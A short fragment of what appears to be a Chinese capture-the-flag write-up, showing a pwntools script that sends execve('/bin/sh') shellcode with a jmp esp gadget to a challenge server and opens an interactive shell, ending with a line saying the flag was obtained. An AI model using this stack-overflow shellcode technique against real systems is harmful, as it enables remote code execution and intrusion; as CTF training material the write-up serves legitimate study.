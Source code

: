 ```


sub_esp_0x20_asm = asm("sub esp, 0x20")

exploit = b"\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x6a\x0b\x58\xcd\x80" + p32(jmp_esp, endian="little") + b"\x31\xd2\x31\xc9" + sub_esp_0x20_asm + call_eax_asm

r = remote("165.227.237.60",31380)

r.sendlineafter(">", exploit)

r.interactive()
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/86631862c1b449358e91b05eb81ff85a.png)

成功获得flag
